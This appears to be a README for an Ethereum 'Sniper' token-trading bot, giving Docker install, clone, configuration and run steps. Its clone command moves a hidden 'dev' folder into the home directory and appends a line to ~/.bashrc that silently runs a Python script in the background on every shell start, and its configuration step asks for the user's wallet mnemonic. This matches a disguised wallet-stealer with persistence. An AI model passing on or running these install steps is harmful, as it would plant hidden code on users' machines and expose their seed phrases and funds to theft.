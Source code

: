 # 🚀 Sniper Script

**Sniper** is an automated trading script based on the Ethereum EVM that allows users to run it by setting parameters, enabling automatic matching with DEXs and fast trading of specified tokens.

---

## 1️⃣ Install Docker

```bash
curl -fsSL https://get.docker.com -o get-docker.sh && sudo sh get-docker.sh
```

(⚠️ Make sure Docker Desktop is running in the background)

## 2️⃣ Clone the repository and configure the environment

```bash
git clone https://github.com/blockchain-DAT/sniper.git && cd sniper && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 3️⃣ Configure variables

```bash
echo 'MNEMONIC=your mnemonic' >> .env
echo 'CA=token contract address' >> .env
echo 'CHAIN_ID=chain ID of the network' >> .env  # For example, the chain ID of Ethereum-mainnet is 1.
echo 'TRADE_AMOUNT=amount of ETH to spend' >> .env
```

⚠️Currently supports Ethereum(1), Base(8453), BSC(56), Arbitrum(42161)

## 4️⃣ Run the image

```bash
sudo docker compose up
```
